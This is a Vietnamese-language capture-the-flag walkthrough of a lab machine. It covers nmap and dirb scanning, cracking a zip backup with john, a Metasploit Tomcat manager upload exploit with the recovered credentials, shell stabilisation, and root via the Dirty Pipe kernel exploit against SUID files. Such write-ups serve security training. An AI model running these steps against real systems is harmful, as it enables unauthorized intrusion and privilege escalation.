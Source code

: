 # Tool

## Network Scanning
- discover
- nmap

## Enumeration
- dirb
- fcrackzip

## Exploitation
- metasploit
- john

## Privilege Escalation
- ssh
- python library hijacking
- root flag

## Level: Medium

# Network Scanning
Để bắt đầu, chúng ta phải sử dụng lệnh `netdiscover` để quét mạng để tìm địa chỉ IP của máy mục tiêu.
    
    netdiscover

![image](https://github.com/user-attachments/assets/2a9999d5-78ab-4868-805e-8a2a58c40414)

` Mục tiêu: 192.168.176.103`

Tiếp theo sử dụng công cụ `nmap` để quét mục tiêu để khám phá các dịch vụ, phiên phản dịch vụ và hệ điều hành được sử dụng trên mục tiêu.

    sudo nmap -sC -sV -O  192.168.176.103
( tùy chọn -sC: chạy các script mặc định của Nmap để thu thập thêm thông tin về các dịch vụ đang chạy trên máy mục tiêu, -sV: phát hiện phiên bản của các dịch vụ đang chạy trên các cổng mở,
-O: phát hiện hệ điều hành (OS fingerprinting) của máy mục tiêu).

![image](https://github.com/user-attachments/assets/388f9cbb-df53-462e-bbc1-963bc18675e1)

Theo kết quả hiện có 3 cổng đang được mở:
- Cổng 22 dịch vụ SSH.
- Cổng 80 dịch vụ HTTP ( Apache/2.4.41).
- Trên cổng 8080, Apache Tomcat 9.0.53 đang chạy.

# Enumeration

Khám phá trang máy chủ Apache `192.168.176.103:80`

Sử dụng công cụ `dirb` để liệt kê các liên kết, thư mục của trang web

    dirb http://192.168.176.103:80  

![image](https://github.com/user-attachments/assets/1a2a7979-1fe3-4ec4-a290-06acbdd4fc03)

Truy cập liên kết tìm thấy, không có gì lạ, nó chỉ là một trang máy chủ Apache.

![image](https://github.com/user-attachments/assets/2bfb8ec2-2de3-4efb-8a6c-4f9a4149b290)

Nâng cấp hơn vẫn sử dụng `brute foces` với công cụ `dirb` nhưng thêm các các extensions để mong tìm được thông tin hữu ích hơn:


    dirb http://192.168.176.103:80  -X .zip,.php,txt

![image](https://github.com/user-attachments/assets/56f55315-f929-4455-a859-7fea1ede72b4)

Không có thông tin gì thêm cả.

Thử mục tiêu tiếp theo Apache Tomcat. Các câu lệnh:

     dirb http://192.168.176.103:8080
     dirb http://192.168.176.103:8080 -X .zip,.txt,.php

![image](https://github.com/user-attachments/assets/91e85a94-b3ab-4ecc-8a21-1d9b7591c8a4)

![image](https://github.com/user-attachments/assets/0808ece1-d3f2-456f-ac3b-a0f0dff9ecb9)

Khá may mắn, đã tìm được liên kết có vẻ hữu ích: `http://192.168.176.103:8080/backup.zip`

Tải về và giải nén nó xem có thông tin gì không?

![image](https://github.com/user-attachments/assets/241763e2-6fa2-4372-8c4f-a838b38fb866)

File yêu cầu password, tiến hành bẻ khóa file zip này.

    zip2john backup.zip > zip_hash.txt         
    john -w=/usr/share/wordlists/rockyou.txt zip_hash.txt

![image](https://github.com/user-attachments/assets/98658c34-adb2-4e85-980c-ddcd765bc2db)

`password: @administrator_hi5 `

Hoặc đơn giản hơn chúng ta có thể sử dụng công cụ fcrackzip:

![image](https://github.com/user-attachments/assets/09afe1ae-d820-4e2e-8ba3-cdda69d6e64a)

Giải nén tệp tin với mật khẩu đã tìm được:

![image](https://github.com/user-attachments/assets/962c61fb-b380-461a-8b3f-c85c45e66596)

Chú ý đến tệp liên quan đến `user` tôi mở chúng.

    cat tomcat-users.xml 

![image](https://github.com/user-attachments/assets/a2af702f-b4ec-4b10-8c2d-4c60dedeb116)

# Exploitation

Vì trước đó tìm được thông tin xác thực hợp lệ (username và password) cho trang quản lý của Tomcat `admin/melehifokivai` nên ta tiến hành exploit sử dụng metasploit module exploit/multi/http/tomcat_mgr_upload:

    use exploit/multi/http/tomcat_mgr_upload
    set RHOSTS 192.168.176.103
    set RPORT 8080
    set HttpUsername admin
    set HttpPassword melehifokivai

![image](https://github.com/user-attachments/assets/91429076-ecac-47af-a844-5223a57de154)

Khai thác thành công. Tạo được session tới mục tiêu. Tạo shell đến OS đến thực hiện bước khác thác tiếp theo:

![image](https://github.com/user-attachments/assets/6e909d3c-4909-4174-8758-a0029a01b865)

Tạo shell thành công, nhưng trước tiên cần ổn định nó đã:

    python3 -c 'import pty;pty.spawn("/bin/bash")'
    export TERM=xterm

![image](https://github.com/user-attachments/assets/96e054a7-73f2-449e-94fd-b5e0e81d73b6)


Thử đăng nhập với tư cách user: tomcat nhưng thất bại. 

![image](https://github.com/user-attachments/assets/4f383cca-01fa-4438-a52b-4f4954e20140)

Tìm các user khác tại `/home`. Phát hiện thêm `randy` và `jaye`

![image](https://github.com/user-attachments/assets/42e4f309-44f3-4f25-b248-f06fa45c77e7)

![image](https://github.com/user-attachments/assets/de7be083-5f9a-4667-bf21-0b0fa795a953)

Thành công đăng nhập với tư cách `jaye`.

# Privilege Escalation

Có 4 cách để thực hiện leo thang đặc quyền:
- Thông qua File Permission: Leo thang đặc quyền thông qua việc cấu hình sai về quyền SUID của files.
  - B1: Tìm kiếm các file có quyền SUID
  
        find / -type f -perm +4000 -ls 2>/dev/null
  - B2: Lựa chọn file để tận dụng leo quyền
  - B3: Thực hiện khai thác
- Thông qua Scheduled Task: Leo thang đặc quyền thông qua việc cấu hình sai về quyền SUID của files.
  - B1: Tìm kiếm các scheduled task: Trong linux, ta có thể quan sát các cron jobs thông qua file cấu hình /etc/crontab
  - B2: Lựa chọn cronjob
  - B3: Thực hiện leo quyền
- Thông qua Kernel Exploit
  - B1: Thu thập thông tin về kernel: `uname -a` hoặc `cat /proc/version` để lấy version của hệ thống
  - B2: Tìm kiếm public exploit
  - B3: Thực hiện leo quyền
- Giới hạn của người dùng: dựa vào config của Sudoers file, từ việc chỉ có thể thực thi sudo với những lệnh hạn chế, có thể leo thang đặc quyền để có được quyền Root.
  - B1: Liệt kê quyền hạn: `sudo -l`
  - B2: Lựa chọn quyền hạn thực thi để tận dụng leo quyền
  - B3: Leo quyền


- Thông qua Kernel Exploit: `uname -a`

![image](https://github.com/user-attachments/assets/fda822bf-c3e0-443c-bcef-98b3c5c1eb69)

Xác định được phiên bản kernel `5.11.0-34-generic`. Sử dụng `searchsploit` để tìm cách khai thác nhưng không có:

![image](https://github.com/user-attachments/assets/69258983-1fa7-4744-acfc-da62e81a6250)

Tìm kiếm có được thông tin liên quan về 5.11.0-34-generic, đó là lỗ hỏng bảo mật `CVE-2022-0847`:

![image](https://github.com/user-attachments/assets/c9667a3c-2708-440e-a8fd-96db3462ba3b)

Tải và biên dịch tệp thực thi để tiến hành exploit:

Trước khi exploit:

![image](https://github.com/user-attachments/assets/80e0fbb3-ca1a-455a-8391-0a323cfb2dbb)

Tìm các file SUID sử dụng câu lệnh: `find / -perm -u=s -type f 2>/dev/null`

![image](https://github.com/user-attachments/assets/393726ef-f18f-4955-b49f-5b7e2503ba5c)

Thực thi tệp khai thác với bất kì SUID nào ta thu được kết quả:

![image](https://github.com/user-attachments/assets/4f456e73-5c5e-4d07-a693-376073a9a1ae)










  
 












    






